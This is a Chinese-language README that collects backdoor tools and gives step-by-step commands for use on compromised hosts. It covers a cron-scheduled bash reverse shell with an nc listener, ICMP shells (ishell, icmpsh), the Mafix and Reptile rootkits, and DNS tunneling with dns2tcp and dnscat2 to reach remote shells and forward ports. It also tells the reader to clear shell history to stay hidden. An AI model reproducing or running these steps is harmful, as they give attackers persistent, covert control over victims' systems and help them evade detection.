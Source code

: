 # backdoor工具收藏

****************************************************
1、 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br>
systemctl restart crond<br>
控制机执行<br>
nc -l -v -p 5353

****************************************************
2、icmp shell无端口后门<br>
原文：https://www.cnblogs.com/bravexz/p/9761411.html<br>
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz<br>
tar -zxvf ish-v0.2.tar.gz<br>
cd ISHELL-v0.2/<br>
make && make linux<br>
make linux<br>
肉鸡192.168.1.28上执行命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
控制机执行：<br>
./ish -i 555 -t 0 -p 1099 192.168.1.28<br>
命令解释：<br>
-i 指定ID，标识自己的请求<br>
-t 指定icmp数据的类型 <br>
-p 指定 icmp 数据 包大小 ,一般 情况下 1024 即可<br>

****************************************************
3、icmpsh后门<br>
pip install impacket<br>
git clone https://github.com/inquisb/icmpsh.git<br>
cd icmpsh<br>
./run.sh<br>
控制端运行：<br>
python icmpsh_m.py 192.168.1.28 192.168.1.41<br>
#./icmpsh-m.py <控制机IP> <肉鸡IP><br>
sz icmpsh.exe到本地<br>
C:\>icmpsh.exe -t 192.168.1.28 -d 600 -b 20 -s 256   //指向控制机<br>

https://blog.csdn.net/Fly_hps/article/details/80627628<br>
https://www.jianshu.com/p/3bdf8c5557e8<br>
https://www.cnblogs.com/bravexz/p/9761411.html<br>
https://github.com/sevck/icmp_Tunnel<br>
https://blog.csdn.net/qq_33020901/article/details/81773737<br>

****************************************************
4、mafix.tar.gz  rootkit后门<br>
Mafix是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现让攻击者远程登陆的，特点是配置简单并可以自定义验证密码和端口号。
kali 下测试通过，centos7不兼容<br>
wget https://github.com/synjkc/backdoor/blob/master/mafix.tar.gz<br>
tar -zxvf mafix.tar.gz<br>
cd mafix<br>
./root xiaoma 9999<br>

安装rootkit 命令：./root 密码  端口   (如: ./root xiaoma 9999  接着用ssh连接它的9999端口，用户名是root，密码为xiaoma)
安装完成后会自动删除目录，为了隐蔽，用 history -c 清除下命令就行了<br>
控制端执行： ssh ip -p9999

*******************************************************************<br>
5、Reptile Linux rootkit后门<br>
肉鸡上安装：<br>
git clone https://github.com/f0rb1dd3n/Reptile.git<br>
cd Reptile<br>
./setup.sh install<br>
卸载<br>
./setup.sh remove<br>
隐藏进程: /reptile/reptile_cmd hide <pid> <br>
显示进程: /reptile/reptile_cmd show <pid><br>
隐藏udp: /reptile/reptile_cmd udp <IP> <port> hide <br>
显示udp: /reptile/reptile_cmd udp <IP> <port> show<br>
隐藏tcp: /reptile/reptile_cmd tcp <IP> <port> hide <br>
显示tcp: /reptile/reptile_cmd tcp <IP> <port> show<br>
还可以隐藏文件 所有包含 reptile 这个字符的文件会被隐藏，这个字符可以在配置文件中修改。<br><br>

Kali上安装控制端<br>
./setup.sh client<br>
项目地址：https://github.com/f0rb1dd3n/Reptile<br>
https://carlstar.club/2019/04/09/rep/#on-vulnerable-ubuntu-192-168-5-148<br>
https://3hack.com/tools/85.html<br>
*******************************************************************<br>
6、服务端Kali 192.168.1.28,自带dns2tcp工具<br>
设置A记录 dns28.xxx.com到Kail<br>
服务端设置<br>
cat /etc/dns2tcpd.conf<br>
listen = 0.0.0.0<br>
port = 53<br>
user = nobody<br>
chroot = /tmp<br>
domain = dns28.xxx.com<br>
resources = c2:127.0.0.1:5353 , ssh:127.0.0.1:22 , smtp:127.0.0.1:25<br>
服务端运行：root@kali:~# dns2tcpd -f /etc/dns2tcpd.conf -F -d 1<br>
https://github.com/synjkc/backdoor/blob/master/dns2tcpc_client_win.zip<br>
客户端运行：<br>
dns2tcpc -r ssh -z dns28.xxx.com 192.168.1.28 -l 8888 -d 2<br>
本地win10运行[c:\~]$ ssh 127.0.0.1 2222，即可连接到Kali<br>
参考https://blog.csdn.net/gsls200808/article/details/50318947<br>
https://www.freebuf.com/articles/network/208242.html<br>
https://www.cnblogs.com/bonelee/p/7927706.html<br>
*******************************************************************<br>
7、DNS隧道工具 dnscat2<br>
a 安装<br>
服务端 <br>
debian9安装ruby环境: apt-get install ruby-full <br>
git clone https://github.com/iagox86/dnscat2.git <br>
cd dnscat2 <br>
cd server <br>
gem install bundler <br>
bundle install <br>
客户端 <br>
git clone https://github.com/iagox86/dnscat2.git <br>
cd dnscat2/client/<br> 
make<br><br>

b 使用 <br>
在服务端机器上，执行： <br>
root@kali:/opt/dnscat2/server# <br>
ruby dnscat2.rb //可以不带任何参数执行 <br>
ruby dnscat2.rb –dns “domain=dns.xxx.com,host=192.168.1.28,port=5353” –no-cache <br>
在客户端机器上，执行： <br>
[root@centos7vm client]# <br>
./dnscat –dns server=192.168.1.28,port=5353 –secret=xxx  //服务端会回显密钥<br><br>

c 进一步操作 <br>
可以用”sessions”命令来查看已经创建的会话 <br>
进入建立的session并与其交互：<br> 
dnscat2> session -i 1<br>

输入”shell”命令即可，它就会开启一个新的窗口，进入到目标系统的shell中 <br>
command (centos7vm) 1> shell<br>

与新的终端中打开的shell会话中进行交互，输入下面这两条命令： <br>
command (centos7vm) 1> windows <br>
command (centos7vm) 1> session -i 2 <br>
sh (centos7vm) 2> uname -a <br>
sh (centos7vm) 2> Linux centos7vm<br>

建立DNS隧道转发 <br>
dnscat2> session -i 1 <br>
command (centos7vm) 1> listen 127.0.0.1:1188 192.168.1.28:10022<br>

Usage: listen [:] : //kali地址及端口 肉鸡IP及端口<br>

Kali上用SSH登录肉鸡，在Kali上连接本地1188，将转发至肉鸡10022端口 <br>
root@kali:~#ssh root@127.0.0.1 -p 1188 <br>
参考：https://blog.csdn.net/localhost01/article/details/86591685 <br>
https://blog.csdn.net/ddr12231/article/details/102306989 <br>
https://blog.csdn.net/weixin_30389003/article/details/94863001 <br>
https://www.4hou.com/tools/17226.html
